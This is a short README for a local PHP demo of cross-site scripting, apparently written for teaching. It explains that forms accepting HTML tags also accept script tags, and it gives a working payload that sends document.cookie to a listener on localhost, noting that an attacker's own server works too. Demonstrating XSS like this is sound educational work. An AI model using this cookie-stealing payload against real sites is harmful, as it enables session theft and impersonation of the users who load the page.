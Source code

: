 # Quick demo
- Just an example of XSS with php

## Run
- Run with `php -S localhost:8000`
- `tail -f /var/log/httpd/access_log`

## PHP
- PHP is a server side scripting language.
- That means that it runs code you can't see before sending you back a response
- This is called a backend or server and this is how *modern* websites work.

## Exploit
- Tags into forms for forums, email signature, etc...
```html
I'm <strong>STRONG</strong>!
```
- If you can put in tags, that means you can put in `<script>` tags...

- What can we do with XSS?
- We can get user cookies, redirect them to a site we can control, or even impersonate the user and execute actions as them.
- Since this is local we can use python's built in http server to get a callback.
- `python -m http.server`
- If you have your own server, you can easily send the data to that as well.
- To get our callback we can enter into either of the forms with:
```html
<script>document.write('<img src="http://localhost:8000/?cookie=' + document.cookie + '" />')</script>
```

- In this case we're 'hacking' ourself, but if this was posted to a vulnerable form page, a malicious user could make everyone who visited the page like their profile or post.
